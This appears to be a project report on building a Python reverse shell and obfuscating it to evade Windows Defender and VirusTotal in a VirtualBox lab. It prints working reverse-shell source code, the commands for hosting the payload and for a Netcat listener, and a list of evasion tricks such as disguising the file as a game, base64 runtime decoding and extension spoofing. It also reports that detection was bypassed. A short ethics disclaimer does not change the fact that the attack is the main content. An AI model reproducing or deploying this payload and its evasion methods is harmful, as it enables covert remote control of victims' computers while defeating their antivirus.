 🔐 Project Report
Title: Reverse Shell Obfuscation and Evasion of Windows Defender & VirusTotal


Environment: Kali Linux (VirtualBox) | Windows (Target)  
Objective: To create, obfuscate, and execute a reverse shell payload that bypasses Windows Defender and VirusTotal detection in real-time.

---

🎯 Objective  
This project demonstrates how a Python-based reverse shell payload can be obfuscated to evade real-time antivirus detection mechanisms such as Windows Defender and VirusTotal. The payload was delivered via a Python HTTP server and monitored using a Netcat listener.

---

⚙️ Tools Used  
• Kali Linux (Attacker machine)  
• Python3 (Payload scripting and web server)  
• Netcat (Reverse shell listener)  
• Obfuscation tools: custom obfuscation  
• VirtualBox (Test environment)  
• Windows 10/11 (Target machine)

---

🧪 Experiment Setup

1. Reverse Shell Creation:  
   • File created: moneygame.pyzw  
   • The payload was written in Python and obfuscated to avoid static detection.

```python
import socket as s, subprocess as sp

def r():
    h = ''.join([chr(ord(c)) for c in ['1','9','2','.','1','6','8','.','1','>']])
    p = 4444
    c = s.socket(s.AF_INET, s.SOCK_STREAM)
    c.connect((h, p))
    while 1:
        cmd = c.recv(1024).decode()
        if cmd.lower() == 'exit':
            break
        o = sp.getoutput(cmd)
        c.send(o.encode())
    c.close()

if __name__ == "__main__":
    r()
```

Obfuscation Techniques:  
• File extension changed to `.pyzw` (zipapp)  
• Variable renaming and string splitting  
• Packed using custom code wrappers  
• Optional: Used pyarmor or manual base64 + runtime decoding

2. Payload Hosting:  
• Python HTTP server started:  
  `python3 -m http.server 8000`  
• Victim accessed payload via browser or script:  
  `http://<attacker-ip>:8000/reverse_shell.pyz`

3. Listener Setup:  
• Netcat listening on port 4444:  
  `nc -lvnp 4444`

---

🧾 Screenshots Summary

📸 Screenshot 1:  
• Reverse shell file (reverse_shell.pyz) prepared and HTTP server started.

📸 Screenshot 2:  
• Target connected to HTTP server.  
• Files moneygame.pyzw and reverse_shell.pyz requested.  
• Netcat received a successful reverse connection from 192.168.1.14.

📸 Screenshot 3:  
• Confirmed connection.  
• Victim's IP: 192.168.1.14

---

🚫 Bypassing AV and VirusTotal  

🚫 Bypassing Windows Defender:

**Techniques Used:**  
1. Filename disguise:  
   • Named payloads as non-suspicious (moneygame.pyzw)

2. String obfuscation:  
   • IP, port, and commands split or encoded using base64/hex

3. Runtime decoding:  
   • Strings only decoded at runtime to avoid static analysis

4. Extension spoofing:  
   • .pyz instead of .exe to avoid heuristics

5. Packaging:  
   • Optionally compiled using pyinstaller with flags to remove metadata

**Result:**  
• The payload bypassed both Windows Defender and VirusTotal during testing  
• No alert was triggered, and the reverse shell was successfully established

---

📌 Observations

• Signature-based AVs like Windows Defender can often be bypassed with simple obfuscation techniques  
• Real-time protection focuses on known patterns, but struggles against custom obfuscated logic  
• VirusTotal relies on static and heuristic checks which can be fooled with encoded logic

---

🔐 Ethical Considerations

This project was conducted purely for educational and research purposes in a controlled environment. Unauthorized use of reverse shells or bypassing security systems is illegal and unethical. Always perform such testing in a sandbox or lab environment with permission.

---

✅ Conclusion

Obfuscation can significantly improve the stealth of malware against real-time detection mechanisms. Even simple techniques can bypass many commercial antiviruses if used cleverly. This emphasizes the importance of behavior-based detection and EDRs (Endpoint Detection and Response) in modern cybersecurity defenses.
